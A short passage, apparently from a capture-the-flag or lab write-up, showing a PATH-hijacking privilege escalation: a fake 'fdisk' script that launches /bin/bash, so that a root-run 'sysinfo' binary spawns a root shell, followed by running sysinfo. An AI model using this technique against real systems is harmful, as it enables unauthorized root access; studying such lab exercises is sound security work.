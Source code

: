 ```
#!/bin/bash

/bin/bash
```

So that when sysinfo executes fdisk with root permissions it'll actually call /bin/bash

```
sysinfo
```

![](Pictures/root.png)

